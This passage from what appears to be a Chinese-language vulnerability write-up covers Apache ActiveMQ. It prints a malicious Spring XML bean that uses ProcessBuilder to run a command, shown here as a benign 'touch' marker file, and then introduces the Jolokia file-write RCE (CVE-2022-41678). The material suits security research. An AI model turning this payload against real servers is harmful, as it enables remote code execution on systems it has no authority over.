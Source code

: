 通过引入恶意的 xml 来执行代码

```plain
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans
       http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
            <list>
                <value>touch</value>
                <value>/tmp/activeMQ-RCE-success</value>
            </list>
        </constructor-arg>
    </bean>
</beans>
```

这个 xml 执行了 touch /tmp/activeMQ-RCE-success命令，具体复现参考vulhub

## CVE-2022-41678

Apache ActiveMQ 在 5.16.5, 5.17.3 版本及以前，后台 Jolokia 存在一处任意文件写入导致的远程代码执行漏洞。

### Jolokia

`Jolokia` 是一个简单但功能强大的远程 `JMX`（Java Management Extensions）代理，它提供了一种通过 `HTTP/JSON` 接口来访问 `JMX bean` 的方法。它主要用于远程管理和监控 Java 应用程序。Jolokia 通过提供一个 `HTTP API` 来访问 `JMX MBeans`，使得在不同平台和语言之间进行交互变得更加容易，特别是在 Web 应用程序和现代监控工具中。

有一些常见的使用 Jolokia 的应用：

-   **Spring Boot**：Spring Boot 应用可以通过 Jolokia 获取 JMX 数据，特别是当应用部署在容器化环境中时，Jolokia 提供了一种便捷的方式来暴露应用的 JMX 数据。
    
-   **Apache Camel**：Apache Camel 是一个集成框架，它提供了 Jolokia 的支持来监控和管理 Camel 路由。
    
-   **Kubernetes**：在 Kubernetes 环境中，Jolokia 可以用于从 Java 应用收集指标并将其暴露给集群的监控系统，如 Prometheus。
    
-   **ActiveMQ**：Apache ActiveMQ 是一个消息代理，它支持通过 Jolokia 访问其 JMX 指标，方便监控和管理消息队列的状态。
    
-   **Elasticsearch**：虽然 Elasticsearch 主要是用 Java 编写的，但它也可以通过 Jolokia 集成到更广泛的监控解决方案中，以便监控其 JVM 性能和其他运行时指标。
    

Jolokia 在不同的应用中也导致过一些不同的漏洞，笔者记得当初玩 edusrc 的时候，第一个高危漏洞就是 Sprint-boot 中由 Jolokia 导致的 XXE 漏洞

[![](assets/1708677570-0f9a07d5bdfc2b7cb7b0fb6bcc1fd2b9.png)](https://mayss.oss-cn-beijing.aliyuncs.com/image/image-20240221152659065.png)

[https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html](https://www.hacking8.com/bug-product/Spring-Boot/Spring-Boot-Actuator-jolokia-%E9%85%8D%E7%BD%AE%E4%B8%8D%E5%BD%93%E5%AF%BC%E8%87%B4%E7%9A%84XXE%E6%BC%8F%E6%B4%9E.html)
